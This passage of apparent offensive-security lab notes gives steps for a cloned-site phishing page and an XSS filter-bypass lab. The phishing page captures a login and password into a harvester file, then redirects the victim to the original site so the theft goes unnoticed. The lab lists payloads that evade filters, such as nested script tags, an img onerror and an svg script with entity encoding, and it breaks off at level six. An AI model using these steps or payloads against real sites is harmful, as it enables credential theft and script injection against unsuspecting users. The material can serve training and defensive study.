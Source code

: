 > test in browser the cloned site

```bash
cd /var/www/cloned.test/
edit index.html
add in responseBody > ("An error has occurred, Please Retry!");
add setTimeout(function(){document.location.href="<the original URL of the target>";},2000);
clean other lines that are not useful to the code
```

```bash
mv post.php login.php 
# because the javascript want a login.php page

insert login:password in the test cloned site, it should redirect to the original after the try

go to /var/www/cloned.test/
cat harvester file 

# it should show the login:password captured
```

## Lab - 11 Levels to Bypass XSS

### 1 - normal

```js
<script>alert("l33t")</script>
```

### 2 - bypass script

```js
<script<script>>alert("l33t")</script>
```

### 3 - no script allowed

```js
<img/src onerror=alert("l33t")>
```

### 4 - no script / no ON allowed

```js
<svg><script>alert('l33t')
```

### 5 - no ON, no functions

```js
<svg><script>alert&lpar;'l33t'&rpar;
```

### 6 - no alert
